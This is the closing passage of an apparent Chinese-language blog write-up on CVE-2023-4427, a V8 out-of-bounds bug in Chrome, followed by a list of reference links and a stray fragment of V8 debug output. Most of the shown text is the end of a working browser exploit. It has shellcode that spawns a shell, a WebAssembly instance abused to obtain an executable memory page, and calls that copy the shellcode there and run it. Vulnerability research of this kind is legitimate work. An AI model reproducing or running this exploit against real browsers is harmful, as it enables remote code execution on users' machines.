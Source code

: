 ```
    }

    var shellcode = [
        0x2fbb485299583b6an,
        0x5368732f6e69622fn,
        0x050f5e5457525f54n
    ];

    var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasmModule = new WebAssembly.Module(wasmCode);
    var instance = new WebAssembly.Instance(wasmModule, {});
    var pwn = instance.exports.main;

    var instance_addr = addressOf(instance)-1;
    var jump_table_addr = instance_addr+0x48;
    var rwx_page_addr = cage_read(jump_table_addr);
    logg("instance_addr",instance_addr);
    logg("jump_table_addr",jump_table_addr);
    logg("rwx_page_addr",rwx_page_addr);

    copy_shellcode_to_rwxpage();
    pwn();
}

// spin();

```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8Gj6Rxl7nPIbK1EcmQIoBmy2NybIOho6zb4yD0FEfaVaekuL3xjHI8Qz0z2Yp9ibt0POZHyq1icWGOQ/640?wx_fmt=png&from=appmsg "")  
#   
# 参考文章  
  
https://bugs.chromium.org/p/chromium/issues/detail?id=1470668  
  
https://blog.csdn.net/qq_61670993/article/details/137133853  
  
https://bbs.kanxue.com/thread-280786.htm  
  
https://paper.seebug.org/3081/  
  
https://cwresearchlab.co.kr/entry/CVE-2023-4427-PoC-Out-of-bounds-memory-access-in-V8  
  
https://rycbar77.github.io/2023/12/01/CVE-2023-4427%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0/#Build  
  
  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8Gj6Rxl7nPIbK1EcmQIoBmyumCUeibuUql5SOROEO0fxhZJA1owhwU3eoKKl7jcHpbQXWK8icDMCBLg/640?wx_fmt=png&from=appmsg "")  
  

  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any
